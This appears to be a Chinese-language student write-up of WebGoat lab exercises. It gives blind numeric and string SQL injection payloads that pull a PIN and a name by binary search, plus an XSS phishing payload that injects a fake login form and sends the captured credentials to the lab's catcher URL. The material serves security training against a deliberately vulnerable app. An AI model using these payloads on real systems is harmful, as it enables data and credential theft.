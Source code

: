 #### 1.7 Blind Numeric SQL Injection

因为页面只输出一个boolean值，所以通过植入and条件，进行pin值范围判断（即二分查找），最后确定pin值。

不断更新输入内容：

`101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 二分查找值 );`

最后得到pin值为**2364**:

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 13.08.31.png" alt="Screenshot 2023-05-19 at 13.08.31" style="zoom:50%;" />

#### 1.8 Blind String SQL Injection

做法同上，但是要查找的类型从int变成了varchar，即不能简单的通过<、=、>符号进行筛选。所以需要使用substring函数，对varchar的每一个字符进行ascii码的比较，从而获取varchar的每一个字符。

不断更新输入内容，查找name的每一个字符：

`101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 第n个字符, 1) > 二分查找值的ascii码 );`

最后得到name为**Jill**：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 13.17.05.png" alt="Screenshot 2023-05-19 at 13.17.05" style="zoom:50%;" />

### 2 Cross-Site Scription (XSS)

#### 2.1 Phishing with XSS

由于直接使用输入内容作为表单内容，所以我们可以在前端代码植入一个自制的表单，然后通过我们用js定义好的hack函数处理表单内容，将账号密码发送给题目要求的url：`http://localhost:8080/WebGoat/catcher?PROPERTY=yes`。

在输入框输入以下内容：

```html
</form>
<script>
  function hack() {
    XSSImage = new Image;
    XSSImage.src = "http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";
    alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);
  }
</script>
<form name="phish">
  <br><br>
  <HR>
  <H3>This feature requires account login:</H2>
    <br><br>
    Enter Username:<br>
    <input type="text" name="user"><br>
    Enter Password:<br>
    <input type="password" name="pass"><br>
    <input type="submit" name="login" value="login" onclick="hack()">
</form>
<br><br>
<HR>
```
